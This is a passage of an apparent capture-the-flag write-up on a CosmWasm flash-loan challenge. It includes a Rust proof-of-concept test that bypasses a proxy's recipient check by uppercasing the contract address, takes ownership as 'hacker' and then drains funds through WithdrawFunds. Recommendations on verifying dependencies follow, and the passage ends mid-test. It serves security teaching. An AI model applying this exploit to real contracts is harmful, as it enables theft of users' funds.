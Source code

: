 ```rust
}

let msg_binary: Binary = to_binary(&FlashLoanExecuteMsg::TransferOwner {
    new_owner: Addr::unchecked("hacker")
}).unwrap();

let make_me_owner = ExecuteMsg::RequestFlashLoan {
    recipient: Addr::unchecked("CONTRACT0"),
    msg: msg_binary
}
```
- Once they are the owner of the `flash_loan` contract they can pretty much do whatever they want, including calling the `WithdrawFunds` method, draining the entire balance of `flash_loan`


### Recommendation

1) Always verify your dependencies (especially in a CTF hackathon :wink:)

2) Replace the modified `cw-multi-test` library with the actual [cw-multi-test](https://github.com/CosmWasm/cw-multi-test)


### Proof of concept

`/proxy/src/integration_tests.rs`
```rust
    // /proxy/
    #[test]
    fn i_am_captain_now() {
        let (mut app, proxy_contract, flash_loan_contract, _mock_arb_contract) =
            proper_instantiate();

        // You cannot call flash loan address from proxy...
        app.execute_contract(
            Addr::unchecked(ADMIN),
            proxy_contract.clone(),
            &ExecuteMsg::RequestFlashLoan {
                recipient: flash_loan_contract.clone(),
                msg: to_binary(&MockArbExecuteMsg::Arbitrage {
                    recipient: flash_loan_contract.clone(),
                }).unwrap(),
            },
            &[],
        ).unwrap_err();

        // ...unless you convert the flash loan contract address to uppercase first,
        // bypassing the recipient address check via uppercase conversion
        app.execute_contract(
            Addr::unchecked("hacker"),
            proxy_contract.clone(),
            &ExecuteMsg::RequestFlashLoan {
                recipient: Addr::unchecked(flash_loan_contract.clone().to_string().to_ascii_uppercase()),
                msg: to_binary(&FlashLoanExecuteMsg::TransferOwner { 
                    new_owner: Addr::unchecked("hacker")
                }).unwrap(),
            },
            &[],
        )
        .unwrap();

        // "hacker" has no balance
        let balance = app
            .wrap()
```